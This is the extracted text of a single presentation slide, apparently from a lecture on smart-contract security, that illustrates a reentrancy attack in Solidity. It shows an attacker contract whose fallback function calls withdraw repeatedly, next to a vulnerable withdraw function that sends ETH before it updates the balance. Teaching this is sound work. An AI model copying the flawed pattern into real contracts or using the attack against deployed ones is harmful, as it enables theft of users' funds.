

ETH to fallback function
function tryIt() public payable {
   target.deposit.value(1 ether)();
   target.withdraw(1 ether);
}
fallback () public payable
  if (this.balance < 2 ether) {
    target.withdraw(1 ether);
  }
}

function withdraw(uint _am) {
   if (_am<=balances[msg.sender]) {
     if (msg.sender.call.value(_am)()) {
       balances[msg.sender]-=_am;
       TransferLog.AddMessage(…);
}}}

43